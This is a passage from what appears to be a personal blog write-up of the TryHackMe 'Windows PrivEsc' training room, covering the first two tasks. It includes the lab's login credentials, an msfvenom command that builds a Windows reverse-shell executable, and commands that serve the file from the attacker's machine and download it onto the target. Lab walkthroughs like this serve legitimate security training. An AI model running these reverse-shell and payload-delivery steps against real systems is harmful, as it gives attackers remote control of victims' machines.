 ```yaml
---
title: Windows PrivEsc  
author: CYB3RM3
name: CYB3RM3 | Windows PrivEsc
date: 2022-03-13 10:30:24 +0100
categories: [TryHackMe, RedTeam]
tags: [Red Team, Privesc, Windows]
---
```


Practice your Windows Privilege Escalation skills on an intentionally misconfigured Windows VM with multiple ways to get admin/SYSTEM! RDP is available. Credentials: user:password321

THM Room [https://tryhackme.com/room/windows10privesc](https://tryhackme.com/room/windows10privesc)


## TASK 1 : Deploy the Vulnerable Windows VM
### Deploy the Windows VM and login using the "user" account. 

No Answer

## TASK 2 : Generate a Reverse Shell Executable
### Generate a reverse shell executable and transfer it to the Windows VM. Check that it works! 
On kali :  

```console
root@ip-10-10-175-21:/tmp# msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.175.21 LPORT=5353 -f exe -o reverse.exe
root@ip-10-10-175-21:/tmp# ls
root@ip-10-10-175-21:/tmp# ls -la
total 108
drwxrwxrwt 12 root root 32768 Mar  4 11:29 .
drwxr-xr-x 23 root root  4096 Mar  4 09:45 ..
-rw-------  1 root root  4413 Mar  4 11:25 .bamficon1PU1I1
drwxrwxrwt  2 root root  4096 Mar  4 09:45 .font-unix
drwxrwxrwt  2 root root  4096 Mar  4 09:45 .ICE-unix
drwx------  3 root root  4096 Mar  4 09:45 namespace-dev-9gBT0e
-rw-r--r--  1 root root  7168 Mar  4 11:32 reverse.exe
[...]
root@ip-10-10-175-21:/tmp# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.220.187 - - [04/Mar/2022 11:30:08] "GET /reverse.exe HTTP/1.1" 200 -
```
{: .nolineno }

On windows target; i started powershell from the c:\PrivEsc folder then :

```powershell
PS C:\PrivEsc> wget 10.10.175.21:8000/reverse.exe -o reverse.exe
```
{: .nolineno }
